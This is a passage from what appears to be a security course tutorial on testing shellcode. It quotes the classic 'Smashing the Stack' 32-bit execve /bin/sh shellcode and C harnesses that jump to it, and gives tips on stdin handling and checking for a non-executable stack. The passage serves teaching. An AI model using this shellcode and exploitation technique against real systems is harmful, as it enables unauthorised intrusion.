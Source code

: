 However, when are testing the shellcode using the `___asm___` capability (as
shown in the paper), the shellcode will be put into the same region of memory
as other code and the "memory" modified by the shellcode will fall in the page
as the shellcode.  Because of paging---specifically, all memory in the same
page has the same permissions---this memory will also be marked as read-only.

### Testing your Shellcode

The code given in "Smashing the Stack" for testing the shell code is a bit
ugly. Here's what they do (which involves overwriting the saved return address
on the stack:

```C
char shellcode[] = 
  "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b" 
  "\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd" 
  "\x80\xe8\xdc\xff\xff\xff/bin/sh";

void main() { 
  int *ret;
  ret = (int *)&ret + 2; 
  (*ret) = (int)shellcode;
}
```

It is much easier to use a function pointer: 

```C
void main() { 
  void (*s)() = (void *)shellcode;
  s();
}
```

#### Troubleshooting 


**32-bit vs. 64-bit shell code.** Be careful that you don't use 32-bit
shellcode on a 64-bit system. A good indicator is the use of `int 0x80` versus
`syscall`, the former is used primarily on 32-bit systems and the latter is
used in 64-bit systems.  Note, you can use `int 0x80` in a 64-bit system but it
can be tricky to make sure that the pointer sizes are only 4 bytes--- pointers
to the stack typically require more than 4 bytes. 

**Why does the popped shell exit immediately?** Sometimes when you pop a shell,
it appears like nothing happened even though your shellcode seemed to execute.
This could occur because stdin is closed, causing the shell to exit
immediately. To fix this problem, you either get some fancy shellcode (not
really that fancy) to reopen stdin, or you use the cat trick: 

```bash
(python exploit.py; cat) | ./vulnerable_prog 
```

**How to check if the stack is executable:** In the EpicTreasure docker image,
you can use `checksec`---look for the string "NX disabled":
